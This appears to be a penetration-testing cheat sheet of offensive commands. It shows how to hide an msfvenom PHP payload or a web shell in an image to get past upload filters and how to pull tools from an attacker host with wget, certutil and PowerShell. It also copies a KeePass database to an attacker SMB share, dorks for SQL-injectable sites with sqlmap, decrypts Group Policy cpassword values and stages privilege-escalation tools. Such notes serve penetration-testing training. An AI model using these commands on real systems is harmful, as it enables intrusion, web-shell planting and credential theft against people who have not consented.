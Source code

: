 # Image upload bypass

Inject payload on image data
```bash
head -n100 real_image.png > payload_image.png
msfvenom -p <payload> LHOST=<kali-ip> LPORT=4444 -f php -o msfvenom_payload.php
cat msfvenom_payload.php >> payload_image.png
```
Inject payload on image metadata
```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' payload_image.png
curl http://website.org/uploads/payload_image.png?cmd=whoami
```

-----------------------

# File transfering via HTTP

Serve File
```bash
python3 -m http.server 80
```
Linux
```bash
wget http://kali-ip/filename
curl http://kali-ip/filename -o filename
```
Windows
```bash
certutil -urlcache -f http://kali-ip/filename filename
iwr -uri http://kali-ip/filename -OutFile filename
(New-Object Net.WebClient).DownloadFile('http://kali-ip/filename', 'filename')
```
-----------------------
# File transfer via SMB

Serve Folder
```bash
impacket-smbserver -ip 192.168.45.177 -smb2support -username sombi -password sombi SombiShare files
```
Connect via powershell
```bash
$pass = convertto-securestring 'sombi' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('sombi', $pass)
New-PSDrive -Name sombi -PSProvider FileSystem -Credential $cred -Root \\192.168.45.245\SombiShare

cd kali:
copy kali:\PrintSpoofer64.exe C:\TEMP
copy kali:\ncat.exe C:\TEMP
copy kali:\SharpHound.exe C:\TEMP
```
Connect via native windows
```bash
net use X: \\192.168.45.172\SombiShare /user:sombi sombi
xcopy C:\Users\milana\Documents\Database.kdbx X:\ /Y
```
-----------------------

# user SMB server within the Windows machine (Native Windows)
```bash
net use X: \\192.168.45.172\SombiShare /user:sombi sombi
xcopy C:\Users\milana\Documents\Database.kdbx X:\ /Y
```
-----------------------

# SQLMAP dorks
```bash
sqlmap -g "inurl:\"php?id=\"" --random-agent -f --batch --answer="extending=N,follow=N,keep=N,exploit=n"
```
-----------------------

# Decrypt Secure string Windows
```bash
<Properties>
...
cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
...
</Properties>

gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```
-----------------------

# Take ownership of file on Windows
```bash
takeown /F filename
cacls id_rsa /E /G "Administrators":R
```
-----------------------

# Fix windows path
```bash
echo %path%
C:\Users\tony\AppData\Local\Microsoft\WindowsApps

#let's update the path
set PATH=%PATH%;C:\Windows\System32\;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\wbem\;
```
-----------------------

# List crackmapexec modules
```bash
# Find modules for SMB
crackmapexec smb -L

# Using module with flag `-M`
crackmapexec smb -M spooler
```
